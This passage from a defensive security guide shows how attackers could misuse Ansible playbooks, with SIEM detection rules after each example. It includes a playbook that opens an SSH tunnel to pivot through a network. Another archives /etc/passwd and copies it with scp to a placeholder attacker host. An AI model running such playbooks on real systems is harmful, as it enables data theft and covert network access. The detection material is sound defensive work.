          - name: Restart SSH service
           service:
             name: sshd
             state: restarted
     ```

     **SIEM Detection:**
     - **Monitor configuration changes followed by service restarts**: Set up rules to detect the sequence of `lineinfile` or `template` module usage followed by `service` module actions, especially for critical services like SSH or firewall services.
     - **Alert on unexpected service restarts**: Any unscheduled restart of critical services should trigger an alert for further investigation.

### 5. **Network Manipulation and Tunneling**
   - **Setting Up Tunnels or Port Forwarding:**
     An attacker could use a playbook to configure port forwarding or create SSH tunnels to pivot through the network.

     **Example Playbook:**
     ```yaml
     ---
     - name: Set up SSH port forwarding
       hosts: all
       tasks:
         - name: Establish SSH tunnel
           shell: ssh -f -N -L 8080:internal_service:80 attacker@{{ inventory_hostname }}
     ```

     **SIEM Detection:**
     - **Monitor for network changes**: Alert on `shell` or `command` module usage that involves commands like `ssh` with port forwarding flags (`-L`, `-R`), or commands that start with `iptables`.
     - **Watch for unusual traffic patterns**: Detect patterns indicative of tunneling, such as consistent outbound connections from high-numbered ports.

### 6. **Exfiltrating Data**
   - **Transferring Data to an External Host:**
     An attacker could use a playbook to package and transfer sensitive data to an external server, effectively exfiltrating it from the network.

     **Example Playbook:**
     ```yaml
     ---
     - name: Exfiltrate data to external server
       hosts: all
       tasks:
         - name: Archive sensitive data
           archive:
             path: /etc/passwd
             dest: /tmp/data.tar.gz

         - name: Transfer archive to external server
           command: scp /tmp/data.tar.gz attacker@external_ip:/path/to/destination
     ```
